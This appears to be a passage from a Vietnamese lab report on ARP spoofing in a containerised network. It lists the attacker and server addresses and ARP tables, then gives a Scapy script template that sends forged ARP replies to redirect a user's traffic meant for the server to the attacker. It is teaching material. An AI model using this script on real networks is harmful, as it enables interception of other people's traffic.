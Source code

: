 - Máy Attacker
  - Địa chỉ IP: `10.61.7.51`
  - Địa chỉ MAC: `02:42:0a:3d:07:33`
  - Bảng ánh xạ ARP:
```bash
root@81ecd9dd554d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.10               ether   02:42:0a:3d:07:0a   C                     eth0
10.61.7.20               ether   02:42:0a:3d:07:14   C                     eth0
root@81ecd9dd554d:/#
```

- Máy Server
  - Địa chỉ IP: `10.61.7.20`
  - Địa chỉ MAC: `02:42:0a:3d:07:14`
  - Bảng ánh xạ ARP:
```bash
root@758a21e6c14a:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.51               ether   02:42:0a:3d:07:33   C                     eth0
10.61.7.10               ether   02:42:0a:3d:07:0a   C                     eth0
```

---

## II. Kịch bản tấn công 1
#### 1. Mẫu
```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = '<User_MAC>', src = '<Attacker_MAC>')
A = ARP(op = 2, hwsrc = '<Attacker_MAC>', psrc = '<Server_IP>', hwdst = '<User_MAC>', pdst = '<User_IP>')
pkt = E/A
pkt.show()
sendp(pkt)
```

#### 2. Kịch bản và quy trình tấn công.
Kịch bản tấn công này thực hiện giả mạo ARP (ARP spoofing/poisoning) nhằm can thiệp vào việc liên lạc giữa User và Server. Mục đích là để **đánh lừa User rằng địa chỉ MAC của Attacker chính là địa chỉ MAC của Server**, từ đó chuyển hướng các gói tin đáng lẽ thuộc về Server đến Attacker.

Quy trình tấn công:
1. **Gói tin ARP giả mạo được gửi đến Máy User**
Gói tin này giả mạo là Máy Server (`10.61.7.20`) trả lời rằng địa chỉ MAC của nó là `02:42:0a:3d:07:33` (địa chỉ MAC của Máy Attacker).

2. **Máy User cập nhật bảng ARP**
Máy User nhận gói tin ARP và tin tưởng cập nhật bảng ánh xạ ARP của mình, ánh xạ địa chỉ IP của Máy Server (`10.61.7.20`) với địa chỉ MAC của Máy Attacker (`02:42:0a:3d:07:33`).

